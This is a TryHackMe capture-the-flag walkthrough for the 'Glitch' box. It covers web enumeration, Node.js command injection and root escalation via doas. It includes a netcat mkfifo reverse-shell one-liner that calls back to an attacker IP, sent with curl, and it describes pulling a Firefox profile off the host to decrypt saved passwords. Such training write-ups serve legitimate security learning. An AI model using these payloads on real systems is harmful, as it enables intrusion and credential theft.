


In this walkthrough, we'll go over a challenge (easy) level box called ***Glitch*** on [TryHackMe](https://tryhackme.com/room/glitch) 


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.29.37 --open
```
It looks like the only port open is 80:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-11 10:21 EDT
Nmap scan report for 10.10.29.37
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.45 seconds
```


When inspecting the page source, we see a function called "getAccess()":


And in the web developer tools, I run the JavaScript function of getAccess() and that spit out the access token:


***Access Toke: dGhpc19pc19ub3RfcmVhbA==***

We can also go to http://10.10.29.37/api/access to get the base64 encoded token:


After decoding it, we can use the value in the web console and refresh the page:
`echo dGhpc19pc19ub3RfcmVhbA== | base64 -d`
`this_is_not_real`


Since I know that there is a folder called "/api" so I ran dirsearch again:
`dirsearch -u http://10.10.198.129/api/ -r -f -t 50 -x 302,400,403,500,503 --cookie=this_is_not_real -w /usr/share/wordlists/dirb/big.txt`


Upon visiting http://10.10.198.129/api/items, I found a dictionary of items:


When I change the request to POST in Burp, I got a message back:


We can now fuzz the items page with ffuf:
`ffuf -w /opt/SecLists/Discovery/Web-Content/api/objects.txt:OBJ -X POST -u http://10.10.198.129/api/items\?OBJ=1 -t 100`


Since we know we can run commands via node.js, I followed this article to get a reverse shell https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/

If you get an output like "\[Object Object\]", that means it is a RCE.
require{"child_process"}.exec("whoami")

By using the following link https://www.revshells.com/ I generated the following code:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.6.172 5555 >/tmp/f` and then I  encoded to comply with URLs and sent the payload with curl:
```bash
curl -s -X POST --cookie "this_is_not_real" "http://10.10.198.129/api/items?cmd=require('child_process').exec('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.13.6.172%205555%20%3E%2Ftmp%2Ff')"
```
We are able to get a shell back:



### Lateral Movement
In the home folder of user, I see a firefox folder in the folder there is a file called "b5w4643p.default-release", this seems interesting so I decided zip the whole folder and transfer to my local machine:


I then used firefox_decrypt.py from https://github.com/unode/firefox_decrypt and decrpyted the firefox creds:




### Privilege Escalation
We can run linpeas under user v0id:


doas binary looked out of place:
looking at it and it said v0id could run commands as other users:


After that we issue `/usr/local/bin/doas -u root bash` by providing v0id's password and we are able to switch to the root user:


I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
